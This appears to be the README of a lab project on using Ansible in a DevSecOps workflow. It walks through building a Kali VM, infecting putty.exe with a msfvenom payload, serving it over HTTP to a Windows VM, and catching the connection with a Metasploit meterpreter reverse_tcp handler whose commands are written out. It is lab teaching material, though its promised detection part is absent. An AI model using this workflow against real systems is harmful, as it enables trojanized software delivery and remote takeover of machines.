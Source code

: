 # DevSecOps With Ansible

An example on how Ansible can be used in a DevSecOps Workflow

## What is DevSecOps?

https://www.redhat.com/en/topics/devops/what-is-devsecops

## What is Ansible?

https://www.redhat.com/en/technologies/management/ansible/get-started

## Running in your environment

Prerequisites: You will need Ansible, Vagrant and VirtualBox installed on your workstation.

So after that just go to the "hack" directory and run the scrip: create_attacker_env.sh. This will create a virtual machine with Kali Linux and thus automate the malware infection of an executable "putty.exe" using "msfvenom". It will also make this malware available on the apache web server to be consumed via HTTP. 

After that in the "hack" directory run the ssh_attakcer.sh. This will ssh to the Kali Linux virtual machine. Finally open msfconsole and run the steps to "wait" for the malware to run on the Windows machine.

msfconsole
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp
set lhost 10.0.0.190
set lport 1234
show options 
exploit 

Now run the create_target_env.sh script, this will create a Windows Server and configure Ansible. After that, the malware will be downloaded and will infect the Windows server.

At this point you will have access to the reverse shell on the Kali virtual machine and will be able to execute any command on the Windows Server.

The purpose of this lab is to show you how you can use Ansible to automate the creation, execution and detection of Malware and any kind of threats, whether in Windows or Linux environments.

Ps: Soon I will add the Ansible roles for threat detection.

![DevSecOps](images/00.png)

![DevSecOps](images/02.png)

![DevSecOps](images/03.png)

![DevSecOps](images/04.png)
